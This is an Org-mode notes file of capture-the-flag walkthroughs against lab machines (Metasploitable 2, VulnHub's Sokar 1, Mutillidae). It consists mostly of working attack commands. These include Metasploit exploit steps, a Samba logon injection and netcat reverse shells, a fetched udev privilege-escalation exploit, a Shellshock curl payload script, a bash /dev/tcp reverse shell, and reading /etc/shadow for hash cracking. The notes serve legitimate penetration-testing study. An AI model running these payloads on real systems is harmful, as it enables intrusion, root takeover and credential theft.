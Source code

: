#+TAGS: sec ctf


* Vuln Boxes
* Boxes
** Metasploitable
** Metasploitable 2
*** Walk Through with RWB on youtube
https://www.youtube.com/watch?v=JGUoOotVXNQ
**** Enumeration
- netdiscover
#+BEGIN_SRC sh
netdiscover -r 192.168.56.0/24
#+END_SRC

- nmap of results from above
#+BEGIN_SRC sh
nmap -sV -p-65535 192.168.56.102
#+END_SRC

- open port 21 - decides to use telnet to confirm service
#+BEGIN_SRC sh
telent 192.168.0.102 21
#+END_SRC

- nmap udp scan
#+BEGIN_SRC sh
nmap -sU 192.168.0.102
#+END_SRC

**** Telnet
Setting up wireshark to capture a telnet session login will allow the password to be caught.
To view the session right click the packet in wire shack and slect follow tcp stream.

**** VSFTP
First determine the version, and then research known exploits

- Using metasploit 
does metasploit have any exploits for vsftp
> search vsftp
> use exploit/unix/ftp/vsftpd_234_backdoor
> set rhost 192.168.0.102
> exploit
no prompt to acknowledge the shell
- use the shell access to view /etc/passwd and /etc/shadow to grab users and password hashes
  
hash-identifier - this can be used on the found hashes to id the hash type

Johnny - jtr gui
  - create a file of the user and hases - uesr:hash*$ksjflsQ
    
- Using Manual Exploit
The above exploit can be performed manually
> ftp 192.168.0.102
Name (192.168.56.102:root): a:)

The above has created a backdoor on port 6200
Use netcat to access the backdoor
> nc -vvn 192.168.0.56.102 6200

this will provide root shell

**** Samba
nmap shows that samba is running on 139 and 445
  
using metasploit aux module
> use auxiliary/scanner/smb/smb_version
> set rhosts 192.168.56.102
> run
this should return the version if available

- using metasploit
> search samba
> use exploit/multi/samba/usermap_script
> set rhost 192.168.56.102
> exploit
this should create a shell on the machone if it's vulnerable

- manually
using smbclient - similar in acton as ftp client
> smbclient //metasploitable/tmp
this should provide an anonymous user smb shell
on the host machine use netcat to set up a listner
> nc -lvnp 4444
on the smb shell
> logon "/=`nc 192.168.56.101 4444 -e /bin/bash`"
should now have a shell connected to the listner

**** DISTCC (Distributed C code across serveral machines on a network for compilation)
Exploits used
http://www.exploit-db.com/exploits/9915
https://www.exploit-db.com/exploits/8572/

nmap shows that dsitccd is running on port 3632 and the version is v1

nmap nse script for distcc version
#+BEGIN_SRC sh
nmap -p 3632 192.168.56.102 --script=distcc-cve2004-2687 --script-agree="distcc-cve2004-2687.cmd='uname -a'"
#+END_SRC
this should return the output of the cmd

- using metasploit
> search distcc
> use exploit/unix/misc/distcc_exec
> set rhost 192.168.56.102
> exploit
Unlike above this will create an interactive shell, not just a single cmd
using ps you can find if there is any other vectors to exploit
on this machine there is a udev exploit available
using searchsploit you can then check if udev has any know exploits
> searchsploit udev
this brings back an exploit linux/local/8572.c
this needs to be put on the targets machine
This can be done by hosting the file on apache
> service apache2 start
> cp /usr/share/exploitdb/platforms/linux/local/8572.c /var/www/html
now on the target use wget to pull the file
> cd /tmp
> wget 192.168.56.101/8572.c -O msp2.c
> touch run
> echo '#!/bin/sh' > run
> echo '/bin/netcat -e /bin/sh 192.168.56.101 5555' >> run
> gcc msp2.c -o msp2
> cat /proc/net/netlink
note the pid (2344)
on host run netcat listner
> nc -lvnp 5555
on target
> chmod +x msp2 
> ./msp2 2344
Should now have a root shell on the netcat listner

**** IngresLock Vuln
Simple vuln that only requires telnet
> telnet 192.168.56.102 1524
that is it, should now have a root shell

** Sokar 1
VulnHub: [[https://www.vulnhub.com/?q%3Dsokar&sort%3Ddate-asc&type%3Dvm][Sokar 1]]
*** HackHappy Walkthrough
+ Enumeration
- netdiscover to find the server

- nmap on the server
#+BEGIN_SRC sh
nmap -sV -p- 192.168.56.102
#+END_SRC
This found an open port on 591

- http://192.168.56.102:591 - this takes you to a stats page
  
- gobuster is then used for more info
#+BEGIN_SRC sh
gobuster -w /usr/share/wordlists/dirb/All.txt -u http://192.168.56.102:591 -t 50
#+END_SRC
-t is number of threads

- nikto
#+BEGIN_SRC sh
nikto -h http://192.168.56.102:591
#+END_SRC

- found a /cgi-bin
- this confirms that the script is regualrly  updating, and confirms that it's the server output
  - this indicates a cron job
    
- attempt [[file://home/crito/org/tech/security/exploits/shellshock.org][Shellshock]]
#+BEGIN_SRC sh
curl -H "user-agent: () {:;}; echo; echo; /bin/bash -c 'id;;" http://192.168.56.102:591/cgi-bin/cat
#+END_SRC
this indicates that shell shock works and we can execute cmds as apache

- create a script with the above for convenience
c.sh
#+BEGIN_SRC sh
#! /bin/bash
curl -H "user-agent: () {:;}; echo; echo; /bin/bash -c '$1 $2 $3 $4 $5;'" http://192.168.56.102:591/cgi-bin/cat
#+END_SRC
- ./c.sh id
  - this will now perform the id cmd on the server
    
- viewing the home directories a user called bynarr has it set to 777
  - in the bash_profile this PATH=.:$PATH:$HOME/bin
    - the . in the PATH means that cmds can be executed from the home dir without the ./

- create a reverse shell from bynarr's home directory
  - on host
#+BEGIN_SRC sh
nc -l -p 51242
#+END_SRC
  - using the script from before
#+BEGIN_SRC sh
./c.sh '/bin/echo -e "bash -i >& /dev/tcp/192.168.56.101/51242 0>&1" > /home/bynarr/iostat'
#+END_SRC
  
- with the new shell check for sudo privs
#+BEGIN_SRC sh
sudo -l
#+END_SRC

- this indicates that we can use the script /home/bynarr/lime
  - this is a linux memory extractor
  - when run, and add is used it prints a file to the /tmp
    
- use grep, looking for root
#+BEGIN_SRC sh
grep root ram
#+END_SRC
this found the hash for the root acct

- also there was the other two accts hashes available in the file
  - apophis - was cracked to be overdrive
    
- as the reverse shell isn't a tty we can use
#+BEGIN_SRC sh
python -c 'import pty; pty.spawn("/bin/sh")'
#+END_SRC
will now be able to use su and become apophis

- inside of apophis is a file build.
  - then run it indicates that it tries but fails to connect to a repo
  - indication of version control, git is running on the machine 
    - looking at the version it appears there's a vuln

- to take advantage of the vuln in git we need to inpersonate sokar-dev, the dev server that build tries to connect to
  - walk through ended here as unable to edit /etc/hosts needed root priv
    
- I think that the .git file should have been looked for and edited the config to point to our host machine

** Mutillidae
** [[https://www.youtube.com/watch?v%3DCYsiNYeAS6U][Introduction to OWASP Mutillidae II Web Pen Testing Environment - Jeremy Druin]]
- is contained in Metasploit2
  
- Besides "hints" and "bubble hints" there is a file with 1,000+ lines of pre-tested hacks against various pages
  - <directory>/mutillidae/documentation/mutillidae-test-scripts.txt
* Links
